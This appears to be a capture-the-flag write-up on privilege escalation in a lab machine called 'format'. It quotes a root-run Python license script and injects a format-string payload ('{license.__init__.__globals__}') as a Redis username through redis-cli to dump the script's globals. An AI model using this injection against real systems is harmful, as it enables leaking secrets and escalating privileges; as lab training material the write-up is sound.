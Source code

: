 This is a Python program, and we notice that the username is concatenated, and the following section is formatted as a hint for the format string `{license.license}`

```python
#cooper@format:~$ file /usr/bin/license
#/usr/bin/license: Python script, ASCII text executable
#cooper@format:~$ cat /usr/bin/license
#!/usr/bin/python3

import base64
...
#provision
if(args.provision):
    user_profile = r.hgetall(args.provision)
    if not user_profile:
        print("")
        print("User does not exist. Please provide valid username.")
        print("")
        sys.exit()
    existing_keys = open("/root/license/keys", "r")
    all_keys = existing_keys.readlines()
    for user_key in all_keys:
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
...
```

The username is retrieved from Redis, and if we modify it, we can use Python's format string:
[Python format string vulnerabilities · Podalirius](https://podalirius.net/en/articles/python-format-string-vulnerabilities/)

![[Pasted image 20230518005139.png]]

We change the username in `Redis` 
```bash
redis-cli -s /var/run/redis/redis.sock  
hset hacker username {license.__init__.__globals__}  
```

```bash
#cooper@format:~$ sudo /usr/bin/license -p hacker
#[sudo] password for cooper: 

Plaintext license key:
------------------------------------------------------
microblog{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f143ae83970>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/usr/bin/license', '__cached__': None, 'base64': <module 'base64' from /u
<SNIP>
```